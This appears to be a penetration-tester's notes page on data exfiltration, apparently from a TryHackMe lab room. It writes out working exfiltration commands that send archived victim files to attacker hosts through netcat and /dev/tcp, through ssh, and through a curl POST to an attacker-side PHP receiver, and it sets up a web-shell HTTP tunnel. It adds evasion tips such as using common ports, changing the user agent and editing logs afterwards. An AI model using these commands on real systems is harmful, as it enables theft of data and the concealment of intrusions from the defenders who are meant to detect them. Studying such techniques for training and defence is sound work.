 # Data Exfiltration

### Exfil using a TCP socket

* Good for when you know there are no network-based security products&#x20;
* This is NOT recommended in a network that is well secured
* This is easy to detect because we are using non standard protocols&#x20;

<figure><img src="../.gitbook/assets/9931b598f5757bbdfb74004a2a43fe16.png" alt=""><figcaption></figcaption></figure>

* This shows the two hosts communicating over port 1337&#x20;
* In the real world please pick a normal port like 443 or 80, 8080, 8443 etc
* The first machine listens on 1337&#x20;
* The other machine connects to `1.2.3.4:1337`&#x20;
* The first machine establishes the connection&#x20;
* You can now send and receive data&#x20;

#### Set up your listener on the attack machines&#x20;

```
nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

* Now on the victim to exfil the data

```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

* Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

```
ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

* On the attack box, we need to convert the received data back to its original status. We will be using the dd tool to convert it back.&#x20;

```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

### Exfiltration using SSH

* SSH protocol establishes a secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.

<figure><img src="../.gitbook/assets/aa723bb0e2c39dfc936b135c4912d1cf.png" alt=""><figcaption></figcaption></figure>

* To transfer data over the SSH, we can use either the Secure Copy Protocol SCP or the SSH client.
* Let's assume `scp` is not on the target machine
* From the victim machine&#x20;
* `jump.example.com` is the attacker machine&#x20;

```
tar cf - task5/ | ssh user@jump.example.com "cd /tmp/; tar xpf -"
```

1. We used the tar command the same as the previous task to create an archive file of the task5 directory.
2. Then we passed the archived file over to ssh. SSH clients provide a way to execute a single command without having a full session.
3. We pass the command that must be executed in double quotations, "cd /tmp/; tar xpf. In this case, we change the directory and unarchive the exfil'd file.

* This one line command will push directories or files from the victim machine
* This will create IOCs on the target host (known\_hosts file), along with different files under `/var/log`
* Use with extreme caution, ensure to edit your logs after

### HTTP POST Request

* Exfiltration data through the HTTP(s) protocol is one of the best options because it is challenging to detect. It is tough to distinguish between legitimate and malicious HTTP traffic.&#x20;
* We will use the POST HTTP method in the data exfiltration. With GET requests, all parameters are registered in log files.&#x20;
* While using POST request, URI parameters/the body is not logged. The following are some of the POST method benefits:
* POST requests are never cached
* POST request body do not remain in the browser history
* POST requests cannot be bookmarked
* POST requests have no restrictions on data length

#### Example Apache Log

* Take a look at the different web logs
* The POST contains way less about our activities&#x20;

```
10.10.198.13 - - [22/Apr/2022:12:03:11 +0100] "GET /example.php?file=dGhtOnRyeWhhY2ttZQo= HTTP/1.1" 200 147 "-" "curl/7.68.0"
10.10.198.13 - - [22/Apr/2022:12:03:25 +0100] "POST /example.php HTTP/1.1" 200 147 "-" "curl/7.68.0"
```

* Ensure to use HTTPS or if using HTTP encrypt your request body
* We will need a php page that handles the post requests on our attack or exfil machine

#### Steps to exfil data

* Set up a webserver on your attack machine with a .php page&#x20;
* The C2 agent or attacker sends the data to the page using the `curl` command&#x20;
* The webserver will receive the data and store it&#x20;
* We will use `contact.php` for our web server and store the files collected in the `/tmp` folder&#x20;

#### php file&#x20;

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

* run the apache2 server&#x20;

```
sudo systemctl start apache2
```

#### Exfil the files&#x20;

```
curl --data "file=$(tar zcf - task6 | base64)" http://web.example.com/contact.php
```

* The base64 recieved will be broken due to the url encdoding over the HTTP.
* The + symbol has been replaced with ' ' (spaces)
* Can easily be fixed with the sed command&#x20;
* Ensure to alter your user agent used, otherwise `curl` will be listed and saved in the victim logs.

```
sudo sed -i 's/ /+/g' /tmp/http.bs64
#now decode it 
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

### HTTP Tunneling&#x20;

* Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via HTTP
* This is useful when certain hosts are not able to reach the internet&#x20;

![HTTP Tunneling](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/92004a7c6a572f9680f0056b9aa88baa.png)

* For HTTP Tunneling, we will be using a [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to establish a communication channel to access the internal network devices.
* Now let's generate an encrypted client file to upload it to the victim web server&#x20;

```
python3 neoreg.py generate -k my_key  
```

* `-k` is the key for the file so in the real world make it strong&#x20;
* The previous command generates encrypted Tunneling clients with `my_key` key in the `neoreg_servers/` directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc.
* We will be using `tunnel.php`
* Upload the `tunnel.php` file to the victim web server&#x20;
* Now let's connect to the neo from our attack machine that we just uploaded&#x20;

```
python3 neoreg.py -k my_key -u http://MACHINE_IP/uploader/files/tunnel.php
```

* Once you connect, we are ready to use the tunnel connection as a proxy on our local machine `127.0.0.1:1080` in the real world change the port to something random&#x20;
* Now we can tunnel further into the network&#x20;
* To curl with socks, run the below command

```
curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```

